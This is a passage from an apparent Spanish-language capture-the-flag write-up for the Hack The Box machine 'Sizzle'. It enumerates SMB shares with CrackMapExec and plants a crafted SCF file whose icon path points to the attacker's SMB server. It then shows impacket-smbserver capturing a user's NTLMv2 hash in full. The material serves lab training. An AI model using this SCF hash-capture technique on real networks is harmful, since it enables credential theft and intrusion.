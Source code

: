 ```bash
```

Podemos ver que tenemos acceso de lectura sobre un recurso llamado "Department Shares". También podemos ver que hay varios recursos interesantes como "CertEnroll" al cual no tenemos acceso.

Vamos a ver que hay dentro de "Department Shares".


```bash
❯ crackmapexec smb 10.10.10.103 -u 'null' -p '' -M spider_plus
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\null: 
SPIDER_P... 10.10.10.103    445    SIZZLE           [*] Started spidering plus with option:
SPIDER_P... 10.10.10.103    445    SIZZLE           [*]        DIR: ['print$']
SPIDER_P... 10.10.10.103    445    SIZZLE           [*]        EXT: ['ico', 'lnk']
SPIDER_P... 10.10.10.103    445    SIZZLE           [*]       SIZE: 51200
SPIDER_P... 10.10.10.103    445    SIZZLE           [*]     OUTPUT: /tmp/cme_spider_plus
```

Había una gran cantidad de carpetas, usé CrackMapExec para hacer una enumeración mas rápida.

### Creating SCF File For Extract NTMLv2

No había ningun archivo interesante... Pero descubrí que podiamos escribir en el directorio "/Users/Public"

```bash
smb: \Users\Public\> put Extraction 
putting file Extraction as \Users\Public\Extraction (15,2 kb/s) (average 9,4 kb/s)
smb: \Users\Public\>
```

Podriamos intentar aprovecharnos de esto y subir un archivo scf https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

Vamos a intentarlo. Primero crearemos un archivo scf con la siguiente estructura.

```bash
❯ catn @bly.scf
[Shell]
Command=2
IconFile=\\10.10.16.6\compartido\test.ico
[Taskbar]
Command=ToggleDesktop
```

Vamos a subirlo a la máquina y vamos a esperar a recibir el hash NTLMv2 , nos pondremos a recibir datos con el servidor smb que nos permite montar impacket.

```bash
❯ impacket-smbserver compartido . -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.103,64593)
[*] AUTHENTICATE_MESSAGE (HTB\amanda,SIZZLE)
[*] User SIZZLE\amanda authenticated successfully
[*] amanda::HTB:aaaaaaaaaaaaaaaa:41c88b213e8c2f4ee91b79348ed5321b:01010000000000008023afe9c554d9017d5bfe029279c6f90000000001001000590070004900480075004c004600410003001000590070004900480075004c00460041000200100069004c004500560061005300660062000400100069004c00450056006100530066006200070008008023afe9c554d90106000400020000000800300030000000000000000100000000200000a0ff9f85ba7d66cb5188b6e7c44bb13c9c5ec60ecabebb2981f254600e7681690a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
```